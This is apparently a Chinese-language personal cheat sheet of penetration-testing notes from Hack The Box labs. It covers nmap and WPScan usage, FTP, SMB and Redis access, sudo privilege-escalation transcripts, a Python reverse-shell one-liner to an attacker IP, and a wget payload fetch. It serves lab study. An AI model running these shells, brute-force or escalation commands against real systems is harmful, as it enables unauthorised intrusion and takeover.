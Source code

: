 ## 信息收集

### nmap
nmap 参数详解 https://www.freebuf.com/sectool/264941.html

（以下记录一些HTB中用过的方便再次查找）

标准服务检测：nmap -sV ip //-sV 尝试确定端口服务版本

扫描所有65535端口：nmap -p- ip

sudo nmap -T4 -A -p port ip  //T4 提高扫描速率; A 探测系统类型、服务版本、脚本扫描和跟踪路由

### WPScan
常用命令：

`wpscan --url https://brainfuck.htb --disable-tls-checks --api-token $WPSCAN_API`  //这里使用disable-tls-checks绕过证书检查，不然脚本不会运行。

`wpscan --url https://brainfuck.htb/ --enumerate u` //猜解用户

`wpscan --url https://www.xxxxx.wiki/ -e u --wordlist /root/password.txt` // 暴力破解

`wpscan -u https://www.xxxxx.wiki/ -enumerate p` //扫描插件

### 目录发现

#### dirsearch

1. 遇到 `403 /cgi-bin/`的时候，可以dirbuster、gobuster或者其他目录fuzz工具[进一步探索cgi-bin目录下的后缀名为`cgi​, sh​, ​pl​, ​py...`的文件。](https://twitter.com/_johnhammond/status/1348253792530280448)

#### gobuster 

1. [常用命令1](https://vk9-sec.com/gobuster-how-to/)
2. [常用命令2](https://blog.intigriti.com/2021/07/05/hacker-tools-gobuster/)
3. [原项目](https://github.com/OJ/gobuster)

## 端口和用到的端口命令

### port 21 ftp
1. 连接方式：`sudo ftp [ip或者host]`
2. 匿名者登录模式：
   ```
	sudo ftp [ip]
	Connected to [ip].
	220 (vsFTPd 2.3.4)
	Name ([ip]:[id]): anonymous  //这里输入anonymous使用匿名者模式（需要服务器开启anonymous_enable=YES）
	331 Please specify the password.
	Password:					//这里直接回车
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
   ```
3. ftp 内常用命令 https://www.cnblogs.com/answerThe/p/11463117.html
  * 查看文件-get {filename}
  * bye  退出ftp

4. 存在后门的特征
   ```
	21/tcp  open  ftp         vsftpd 2.3.4
   ```

### port 22 SSH

[链接](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh)

主要是暴力破解，可挖性比较低

### port 23 Telnet

1. port 23 telnet: telnet {IP} (该说不说这种默认口令port23真的已经很少很少了吧)

### port 25,465,587 SMTP

[Simple Mail Transfer Protocol](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp#sniffing)

### port 110 POP

[Post Office Protocol](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop#hacktricks-automatic-commands)

### port 143 imap

[imap](https://book.hacktricks.xyz/network-services-pentesting/pentesting-imap)

### port 139,445 SMB
https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
```
For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use, as you point out, port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.**
```
1. port 139
2. port 445 SMB :
	* smbclient : 用于连接和传输文件的脚本（linux based）
	* 不知道用户账密时：使用访客或匿名模式查看分享文件夹，`smbclient -L {target_IP}`
	* 探知未配置访问控制的分享文件`smbclient \\\\{target_IP}\\{foldername}`

### port 6379
1. port 6379 Redis:
	* redis 未授权访问 https://blog.csdn.net/qq_41210745/article/details/103309137 
	* `info 获取redis信息`， `select {数字} 切换到指定数据库`，`keys * 列出所有key名称`，`get {key} 获取某个key的内容`

## 漏洞利用

### Metasploit

**注意，在打靶机连了VPN的情况下，（主要在反弹shell场景下）需要将本地监听LHOST改为VPN提供的IP**

在exploit跑不通时，排查如下几个方面：
1. 将本地监听LHOST改为VPN提供的IP
2. 注意指定rhost攻击时，可能也需要指定rport
3. `show payloads`拿到实际payload列表自行尝试单个payload
4. 卸载重装最新版本 `sudo apt-get remove --auto-remove metasploit-framework`


## 提取

### 低权限shell提权案例


```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
10.10.10.56> sudo perl -e 'exec "/bin/bash"'
10.10.10.56> whoami
root
```

```
$ sudo -l 
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager /bin/bash
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/$ 
```

### 反弹shell

```
本地：
sudo nc -nvlp 1111
受害服务器：
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### 远程文件包含获取shell

```
本地：
sudo python3 -m http.server 80 //shell文件放在开启该命令的文件夹下，如根目录
受害服务器：
wget 10.10.16.2/new.py
```


